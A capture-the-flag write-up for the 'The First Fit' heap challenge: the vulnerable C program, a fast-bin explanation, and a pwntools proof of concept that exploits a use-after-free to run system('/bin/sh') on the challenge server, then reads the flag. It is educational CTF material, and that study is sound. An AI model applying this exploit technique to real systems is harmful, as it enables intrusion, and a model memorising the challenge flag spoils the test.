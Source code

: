 # The First Fit

## Challenge Description
`Let's get started with a simple heap exploit!`

## Challenge
> TDLR: Exploit Use-After-Free vulnerability. Call `malloc()` to allocate memory to variable b, call `free(a)`, call `free(b)` (although the memory is freed, variable b is still pointing to the address), call `malloc()` to allocate memory to variable a (variable a points to the same memory address as variable b). Write “/bin/sh” to the memory via option 3. Run system('/bin/sh') via option 4

### Given source code
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int choice, choice2;
  char *a = malloc(128);
  char *b;
  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);
  while (1) {
    printf("a is at %p\n", a);
    printf("b is at %p\n", b);
    printf("1: Malloc\n2: Free\n3: Fill a\n4: System b\n> ");
    scanf("%d", &choice);
    switch(choice) {
      case 1:
              printf("What do I malloc?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                a = malloc(128);
              else if (choice2 == 2)
                b = malloc(128);
              break;
      case 2:
              printf("What do I free?\n(1) a\n(2) b\n>> ");
              scanf("%d", &choice2);
              if (choice2 == 1)
                free(a);
              else if (choice2 == 2)
                free(b);
              break;
      case 3: printf(">> "); scanf("%8s", a); break;
      case 4: system((char*)b); break;
      default: return -1;
    }
  }
  return 0;
}
```

### Background knowledge about fast bin
The heap manager maintains 5 types of bins: small bin, large bin, unsorted bin, fast bin and tcache bins. These bins are used to improve performance of memory allocation and free.

Fast bin stores recently released memory and is reused when malloc() is called soon after the memory is freed. When memory is freed, it is inserted to the HEAD of the list. When memory is allocated, it is removed from the HEAD of the list. This is because fast bin is implemented using a single linked list.

Example: <br />
When free(a) is called: <br />
HEAD -> memory(a) -> TAIL <br />

When free(b) is called: <br />
Head -> memory(b) -> memory(a) -> Tail

When malloc() is called: <br />
Head -> memory(a) -> Tail [memory(b) is allocated first]

### Solution
Goal: Make variable b points to ‘/bin/sh’ string, then I can call system('/bin/sh') via option 4.

Solution: Call `malloc()` to allocate memory to variable b, call `free(a)`, call `free(b)` (although the memory is freed, variable b is still pointing to the address), call `malloc()` to allocate memory to variable a (variable a points to the same memory address as variable b). Write “/bin/sh” to the memory via option 3. Run system('/bin/sh') via option 4

Working POC:
``` python
from pwn import *

r = remote('chal.imaginaryctf.org', 42003)
print(r.recvuntil(b'>'))
r.sendline(b'1') # select 'malloc' option
print(r.recvuntil(b'>>'))
r.sendline(b'2') # b = malloc(128)
print(r.recvuntil(b'>'))
r.sendline(b'2') # select 'free' option
print(r.recvuntil(b'>>'))
r.sendline(b'1') # free(a)
print(r.recvuntil(b'>'))
r.sendline(b'2') # select 'free' option
print(r.recvuntil(b'>>'))
r.sendline(b'2') # free(b)
print(r.recvuntil(b'>'))
r.sendline(b'1') # select 'malloc' option
print(r.recvuntil(b'>>'))
r.sendline(b'1') # a = malloc(128) ('a' point to the same address as 'b')
print(r.recvuntil(b'>'))
r.sendline(b'3')
print(r.recvuntil(b'>>'))
r.sendline(b'/bin/sh') # store "/bin/sh" in 'a' (also in 'b')
print(r.recvuntil(b'>'))
r.sendline(b'4') # system((char*)b) -> system('/bin.sh')
r.interactive()
```

Output of the script:
```bash
$ python3 heap.py
[+] Opening connection to chal.imaginaryctf.org on port 42003: Done
b'a is at 0x5565706eb2a0\nb is at 0x7ffd58d43ad0\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I malloc?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I free?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I free?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb2a0\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' What do I malloc?\n(1) a\n(2) b\n>>'
b' a is at 0x5565706eb330\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
b' >>'
b' a is at 0x5565706eb330\nb is at 0x5565706eb330\n1: Malloc\n2: Free\n3: Fill a\n4: System b\n>'
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
ictf{w3lc0me_t0_h34p_24bd59b0}
```

Flag: `ictf{w3lc0me_t0_h34p_24bd59b0}`

## Resource:
- https://heap-exploitation.dhavalkapil.com/attacks/first_fit
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/